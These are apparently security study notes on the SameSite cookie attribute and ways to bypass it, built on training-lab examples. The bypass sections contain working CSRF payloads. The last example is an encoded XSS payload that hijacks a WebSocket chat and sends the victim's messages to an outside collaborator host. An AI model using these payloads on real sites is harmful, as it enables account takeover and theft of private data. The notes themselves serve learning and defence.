

# SameSite 101

>[!question] What is the SameSite attirbute for cookies?
>SameSite is a browser security mechanism that determines when a website's cookies are included in requests originating from other websites. As requests to perform sensitive actions typically require an authenticated session cookie, the appropriate SameSite restrictions may prevent an attacker from triggering these actions cross-site.

They provide partial protections against various cross-site attacks, including:
- [Cross-Site Request Forgery (CSRF)](Cross-Site%20Request%20Forgery%20(CSRF).md)
- Cross-Site leaks
- [CORS based attacks](CORS%20based%20attacks.md)

>[!important] Domain =/= site
>Important distinction as it means that any vulnerability enabling arbitrary JavaScript execution can be abused to **bypass site-based defenses** on other domains belonging to the same site.
>
>This allows other kind of attacks, like:
>- [Cross-Origin Request Forgery (CORF)](Cross-Origin%20Request%20Forgery%20(CORF).md)
>- [Cookie Tossing](Cookie%20Tossing.md)
>- [Cookie Eviction](Cookie%20Eviction.md)

In the context of SameSite cookie restrictions, a **site** is defined as a combination of **scheme** + the **top-level domain** + **one additional level of the domain**:
- `http://app.example.com` and `https://app.example.com` are considered two distinct sites.
- `http://app.example.com` and `http://app2.example.com` are considered the **same site** (because 3rd level domain and below are not considered)

A **site** is also different by an **origin** (ref. [Same-origin policy (SOP)](Same-origin%20policy%20(SOP).md) for further information):

| Request from            | Request to                   | Same-site?            | Same-origin?               |
| ----------------------- | ---------------------------- | --------------------- | -------------------------- |
| https://example.com     | https://example.com          | Yes                   | Yes                        |
| https://app.example.com | https://intranet.example.com | Yes                   | No: mismatched domain name |
| https://example.com     | https://example.com:8080     | Yes                   | No: mismatched port        |
| https://example.com     | https://example.co.uk        | No: mismatched eTLD   | No: mismatched domain name |
| https://example.com     | http://example.com           | No: mismatched scheme | No: mismatched scheme      |

SameSite can have three different values:
- **Strict**: browsers will not send the cookie in any cross-site requests.
- **Lax**: browsers will send the cookie in cross-site requests, but only if **the request uses the `GET` method** and it **resulted from a top-level navigation** by the user, such as clicking on a link.
- **None**: browsers will send this cookie in all requests to the site that issued it, even those that were triggered by completely unrelated third-party sites.
  >[!warning]
  >When setting a cookie with `SameSite=None`, the website must also include the `Secure` attribute, which ensures that the cookie is only sent in encrypted messages over HTTPS. Otherwise, browsers will reject the cookie and it won't be set.

# Common bypasses and flaws

## Bypass SameSite Lax restrictions using GET requests

Sometimes server aren't always fussy about whether they receive a GET or POST request to a given endpoint. In this case it's possible to **transform a `POST` request into a `GET` request** and bypass the Lax restriction.

  >[!note]
  >As long as the request involves a **top-level navigation**, the browser will still include the victim's session cookie. Form submissions do not work!
  
  ```html
  <script> document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000'; </script>
  ```
  Even if an ordinary `GET` request isn't allowed, **some frameworks provide ways of overriding the method** specified in the request line:
  ```html
  <form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
  ```

## Bypass SameSite Lax restrictions with newly issued cookies

Cookies with Lax SameSite restrictions aren't normally sent in any cross-site POST requests, but there are some exceptions. To avoid breaking single sign-on mechanisms, **Chrome doesn't actually enforce these restrictions at all for the first 120 seconds after a cookie is set**. It's somewhat impractical to try timing the attack to fall within this short window. On the other hand, if you can find a gadget on the site that enables you to force the victim to be issued a new session cookie, you can preemptively refresh their cookie before following up with the main attack.
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/');
    // open a popup to force the cookie refresh
    window.onclick = () => {
        window.open('https://0a77007f04d29645c20fc03300cd0049.web-security-academy.net/my-account')
    }</script>
    <form action="https://0a77007f04d29645c20fc03300cd0049.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test123&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Bypass SameSite restrictions using on-site gadgets

If a cookie is set with the `SameSite=Strict` attribute, browsers won't include it in any cross-site requests. However, you may be able to get around this limitation if you can **find a gadget** that results in a secondary request within the same site, like an [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) or an [Open Redirection](Open%20Redirection.md) from the DOM.

  >[!example]
>Javascript file performing a dom redirection, called from the page `/post/comment/confirmation?postId=2` with the following line `redirectOnConfirmation('/post');`:
>
  >```js
>redirectOnConfirmation = (blogPath) => {
>    setTimeout(() => {
>        const url = new URL(window.location);
>        const postId = url.searchParams.get("postId");
>        window.location = blogPath + '/' + postId;
>    }, 3000);
>}
>```
>Exploit:
>```html
><script>document.location="https://0ab7007804429578c1546dc7002c0017.web-security-academy.net/post/comment/confirmation?postId=../../../../../../my-account/change-email?email=test%40test.com%26submit=1";</script>
>```
  
   >[!warning]
  Note that the equivalent attack is not possible with server-side redirects. In this case, browsers recognize that the request to follow the redirect resulted from a cross-site request initially, so they still apply the appropriate cookie restrictions.

## Bypass SameSite restrictions via vulnerable sibling domains

It's essential to keep in mind that a request can still be same-site even if it's issued cross-origin. Vulnerabilities that enable you to elicit an arbitrary secondary request, like [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) or subdomain takeover, can compromise site-based defenses completely, exposing all of the site's domains to cross-site attacks, including:
- [Cross-site WebSockets hijacking (CSWSH)](WebSockets.md#Cross-site%20WebSockets%20hijacking%20(CSWSH)) 
- [Cross-Origin Request Forgery (CORF)](Cross-Origin%20Request%20Forgery%20(CORF).md) 
- [Cookie Tossing](Cookie%20Tossing.md)
- [Cookie Eviction](Cookie%20Eviction.md)


  >[!example]
  >Session cookie has the SameSite attribute set to Strict: `Set-Cookie: session=9zoajIpR9fdqvXj3IiNbzNHQhC7q8yCo; Secure; HttpOnly; SameSite=Strict`
  >XSS gadget on a different domain from the same site of the vulnerable application:
  >
  >Final PoC to leak victim's chat and perform [Cross-site WebSockets hijacking (CSWSH)](WebSockets.md#Cross-site%20WebSockets%20hijacking%20(CSWSH)):
  >```html
  ><script>document.location="https://cms-0a8b0080049320f7c0df54a800d500f6.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%38%62%30%30%38%30%30%34%39%33%32%30%66%37%63%30%64%66%35%34%61%38%30%30%64%35%30%30%66%36%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%7d%3b%0a%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%37%79%36%67%30%35%33%73%71%67%7a%30%36%7a%66%31%74%36%61%6d%75%34%64%37%71%79%77%70%6b%68%38%36%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=pippo";</script>
>```
